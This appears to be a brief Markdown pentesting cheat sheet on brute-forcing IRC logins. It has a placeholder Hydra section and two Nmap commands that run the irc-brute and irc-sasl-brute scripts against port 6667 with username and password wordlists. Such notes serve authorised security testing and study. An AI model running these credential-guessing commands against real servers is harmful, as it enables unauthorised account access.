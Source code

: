 # IRC

## 01 - Hydra

TODO: Provide an syntax example to bruteforce IRC with hydra

```
$ hydra -U irc
```

## 02 - Nmap

```
$ nmap -p 6667 -Pn --script irc-brute --script-args userdb=users.lst,passdb=passwords.lst <IP>

$ nmap -p 6667 -Pn --script irc-sasl-brute --script-args userdb=users.lst,passdb=passwords.lst <IP>
```